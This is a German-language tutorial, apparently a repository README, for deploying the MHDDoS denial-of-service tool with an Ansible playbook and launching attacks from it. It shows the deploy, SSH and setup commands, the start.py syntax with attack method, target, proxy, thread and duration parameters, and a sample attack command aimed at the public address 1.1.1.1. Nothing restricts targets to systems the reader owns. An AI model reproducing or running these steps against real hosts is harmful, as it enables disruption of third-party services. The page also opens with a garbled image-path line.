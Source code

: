 ### Schritt 2: Playbook ausführen

Führe das Playbook mit Ansible aus (dauert einige Zeit)

```bash
ansible-playbook ~/Schreibtisch/ansible/playbooks/install_MHDDoS.yml --user ubuntu --private-key ~/.ssh/id_rsa -i ~/Schreibtisch/ansible/inventory/hosts
```

### Schritt 3: SSH Verbindung

Verbindet euch über SSH mit der “MHDDoS Instanz” 

```bash
ssh -i ~/.ssh/id_rsa ubuntu@<your-server-ip>
```

Wenn das erfolgreich war solltet es wie folgt aussehen:

![Untitled](images/A5)

### Schritt 4: Der erste DDos Angriff

Wechsel nun in das Verzeichnis der Dos Anwendung: /opt/MHDDoS

```bash
cd /opt/MHDDoS/
```

Bevor wir loslegen müssen wir noch die virtuelle Umgebung aktivierten

```bash
source venv/bin/activate
```

DDos Angriffe lassen sich nun über die Kommandozeile mit folgendem Syntax starten

```bash
python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
```

Hier eine Erklärung der einzelnen Parameter:

- Method (type of attack)
- Target URL or IP Address
- Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
- Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
- Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
- RPC (Requests pre connection)
- Duration (Time to finish attack in seconds)
- Debug Mode (Optional)

<aside>
⚠️ Startet langsam! Ziel ist es die Auslastung nie über 50% zu treiben!

</aside>

Dies ist ein Beispiel Command mit dem ihr starten könnt:

```bash
# Running udp attack from 100 threads, for 10 seconds  
python start.py connection 1.1.1.1 100 10
```